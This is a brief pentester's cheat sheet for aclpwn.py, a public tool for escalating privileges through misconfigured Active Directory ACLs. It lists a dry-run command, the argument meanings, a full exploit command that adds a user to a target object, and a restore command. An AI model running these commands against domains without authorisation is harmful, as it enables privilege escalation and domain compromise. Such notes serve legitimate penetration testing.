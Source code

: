 ### source
https://github.com/fox-it/aclpwn.py  

### only show the escalation path and do not attempt to exploit
```
python3 aclpwn.py -f <user> -ft <userType> -d <domain> -dry
```

### arguments
```
-f = the owned user or computer
-ft = user or computer
-t = the target object (given user will be added to this object) 
-u = user to add to object
-tt = type of the destination object (user, group, domain or computer)
```

### exploit misconfiguration
```
python3 aclpwn.py -f <user> -ft <userType> -t <targetObject> -tt <typeOfObject> -d <domain> -du ne04j -dp <bloodhoundPw> -u <user>
```

### restore privileges (restore file will automatically be generated while exploiting, use --server if domain controller can not be resolved)
```
python3 aclpwn.py --restore <file>.restore
```


